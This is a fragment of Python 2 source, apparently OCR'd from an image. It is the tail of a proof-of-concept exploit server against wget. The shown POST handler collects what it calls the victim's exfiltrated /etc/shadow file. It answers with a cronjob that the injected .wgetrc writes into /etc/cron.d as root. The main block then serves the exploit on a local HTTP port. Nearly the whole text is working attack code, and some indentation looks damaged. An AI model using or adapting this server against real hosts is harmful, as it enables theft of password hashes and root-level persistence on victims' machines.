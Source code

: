 ```
       self.send_header('Location', new_path)
       self.end_headers()
 
   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob
 
       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
      print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return
 
       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)
 
       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)
 
       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"
 
       return
 
HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.0.3.1'
FTP_PORT = 21
 
ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"
 
handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)
 
print "Ready? Is your FTP server running?"
 
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)
 
print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT
 
handler.serve_forever()
```
